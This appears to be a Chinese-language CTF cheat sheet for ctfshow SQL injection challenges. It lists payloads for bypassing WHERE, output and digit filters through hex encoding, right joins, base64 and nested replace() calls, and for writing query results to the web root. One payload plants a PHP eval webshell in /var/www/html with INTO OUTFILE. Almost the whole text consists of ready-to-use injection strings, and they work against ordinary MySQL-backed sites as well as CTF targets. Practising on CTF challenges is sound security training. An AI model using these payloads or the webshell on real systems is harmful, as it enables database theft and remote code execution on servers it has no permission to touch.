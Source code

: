 ```sql
1' and '1'='1
1' and 1-(ascii('a')-97)-'1
```

#### 过滤where

- group by id having id regexp(0x....)
- right join on

```bash
ctfshow_user as a right join ctfshow_user as b on b.pass like 0x63746673686f7725 #ctfshow%    16进制编码后-->   0x63746673686f7725
```

#### 过滤回显

##### 编码绕过

如`$row->username!=='flag'`

用base64编码或者hex编码绕过
`-1' union select to_base64(username),hex(password) from ctfshow_user2 --+`

##### 查询结果写入文件

直接查询
`1' union select username , password from ctfshow_user4 where username='flag' into outfile'/var/www/html/ctf.txt' --+`
webshell
`?id=' UNION ALL SELECT 1,2,'<?php echo 123;eval($_POST[0]);?>',3 into outfile '/var/www/html/1.php' %23`

##### 替换字符

`-1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(username),'1','numA'),'2','numB'),'3','numC'),'4','numD'),'5','numE'),'6','numF'),'7','numG'),'8','numH'),'9','numI'),'0','numJ'),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),'1','numA'),'2','numB'),'3','numC'),'4','numD'),'5','numE'),'6','numF'),'7','numG'),'8','numH'),'9','numI'),'0','numJ') from ctfshow_user4 where username='flag' --+`

#### 过滤数字

| Expression                 | Value |
| -------------------------- | ----- |
| false                      | 0     |
| true                       | 1     |
| true+true                  | 2     |
| floor(pi())                | 3     |
| ceil(pi())                 | 4     |
| floor(pi())+true           | 5     |
| floor(pi())+floor(pi())    | 6     |
| floor(pi())+ceil(pi())     | 7     |
| ceil(pi())+ceil(pi())      | 8     |
| floor(pi())*floor(pi())    | 9     |
| floor(pi())*floor(pi())+true | 10    |
